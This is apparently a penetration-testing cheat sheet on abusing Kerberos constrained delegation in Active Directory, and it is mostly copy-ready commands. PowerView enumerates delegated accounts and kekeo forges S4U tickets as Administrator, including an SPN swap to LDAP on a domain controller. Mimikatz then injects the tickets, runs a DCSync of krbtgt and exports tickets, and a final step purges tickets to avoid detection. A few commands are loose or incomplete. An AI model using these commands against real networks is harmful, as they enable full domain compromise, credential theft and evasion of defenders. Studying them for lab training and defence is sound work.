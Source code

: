 ```yaml
---
description: >-
  Dive into our comprehensive article exploring the intricacies of Constrained
  Delegation. Uncover its functions, role, and understanding its impact for an
  effective system management strategy.
---
```


# 🟢 Constrained Delegation

**Enumerate users with contrained delegation enabled**

```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

**Enumerate computers with contrained delegation enabled**

```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

### Constrained delegation User

**Requesting TGT with kekeo**

```
./kekeo.exe
Tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
```

**Requesting TGS with kekeo**

{% code overflow="wrap" %}
```
Tgs::s4u /tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
```
{% endcode %}

**Use Mimikatz to inject the TGS ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

### Constrained delegation Computer

**Requesting TGT with a PC hash**

```
./kekeo.exe
Tgt::ask /user:dcorp-adminsrv$ /domain:<domain> /rc4:<hash>
```

**Requesting TGS**

No validation for the SPN specified

{% code overflow="wrap" %}
```
Tgs::s4u /tgt:<kirbi file> /user:Administrator@<domain> /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```
{% endcode %}

### **Using mimikatz to inject TGS ticket and executing DCsync**

```
Invoke-Mimikatz -Command '"Kerberos::ptt <kirbi file>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<shortdomain>\krbtgt"'
```

#### Additional Enumeration Techniques

Discover additional services allowing delegation:

```
Get-ADObject -Filter {msDS-AllowedToActOnBehalfOfOtherIdentity -ne '$null'} -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

```

#### Further Exploitation

**Extract and Use TGT**

Using the extracted TGT for impersonation:

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Then, using the ticket:

```
Invoke-Mimikatz -Command '"kerberos::ptt <path to .kirbi ticket>"'
```

**Execute Commands with the Impersonated Identity**

Once ticket is injected, use it to execute commands:

```
Invoke-Command -ScriptBlock { whoami; Get-Process } -Credential $cred -ComputerName
```

Where `$cred` is a PSCredential object created with the credentials of any user you've impersonated.

#### Cleaning Up

Remember to remove any traces of your activities:

```
Invoke-Mimikatz -Command '"kerberos::purge"'
```

This ensures the removal of all Kerberos tickets from the current session and helps avoid detection.

#### Additional Resources

For more information on Kerberos delegation and related attacks, refer to the following resources:

* [Microsoft Documentation on Kerberos Constrained Delegation](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview)
* [Harmj0y's Guide to Kerberos Abuse](https://www.harmj0y.net/blog/tag/kerberos/)
